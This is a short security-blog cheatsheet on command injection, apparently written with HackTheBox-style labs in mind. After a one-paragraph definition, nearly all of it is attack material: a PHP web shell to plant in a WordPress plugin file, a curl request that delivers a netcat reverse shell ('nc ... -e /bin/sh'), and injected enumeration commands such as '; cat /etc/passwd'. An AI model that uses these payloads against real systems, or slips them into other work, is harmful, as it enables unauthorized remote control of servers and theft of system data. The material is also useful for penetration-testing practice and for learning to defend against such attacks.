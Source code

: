 ```yaml
---
title: "Command Injection cheatsheet"
date: 2025-05-02 10:10:00 +0700
categories: [Cheatsheets]
tags: [Cheatsheets, command injection]
pin: false
---
```


### Command injection is a vulnerability that occurs when an application improperly passes user input to a system shell. Attackers can exploit this flaw to execute arbitrary commands on the target system. This often happens due to improper input validation in web applications, shell scripts, or system commands.


#### Alternative Command Injection
Replace vulnerable code with:
```php
<?php echo system($_REQUEST['cmd']); ?>
```
Example usage:
```
wp-content/plugins/akismet/wrapper.php?cmd=whoami
```
Or via `curl`:
```bash
curl -X POST http://spectra.htb/pathtoaskismet/wrapper.php -d cmd="nc 127.0.0.1 1337 -e /bin/sh"
```

---

## Linux Command Injection

### Basic Enumeration
```bash
; id
; whoami
; uname -a
; ls -la
; cat /etc/passwd
; ps aux
; netstat -tulnp
```

### Chaining Commands
```bash
id; ls -la  # Execute id and then list files
whoami && hostname  # Run hostname only if whoami succeeds
ls || echo "Command failed"  # Show message if ls fails
```

